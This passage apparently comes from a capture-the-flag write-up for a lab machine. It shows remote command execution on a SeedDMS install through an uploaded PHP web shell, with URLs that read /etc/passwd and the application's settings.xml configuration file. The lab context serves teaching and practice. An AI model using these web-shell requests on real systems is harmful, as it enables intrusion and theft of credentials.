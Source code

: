 
Next, We can get the document id by clicking on the document link and hover on the Download button:
![hover.JPG](images/hover.JPG)

Now, We can get RCE by browsing the following link [http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=cat+/etc/passwd](http://dms-pit.htb/seeddms51x/data/1048576/30/1.php?cmd=cat+/etc/passwd):
![RCE.JPG](images/RCE.JPG)

By accessing to [view-source:http://dms-pit.htb/seeddms51x/data/1048576/33/1.php?cmd=cat%20/var/www/html/seeddms51x/conf/settings.xml](view-source:http://dms-pit.htb/seeddms51x/data/1048576/33/1.php?cmd=cat%20/var/www/html/seeddms51x/conf/settings.xml)
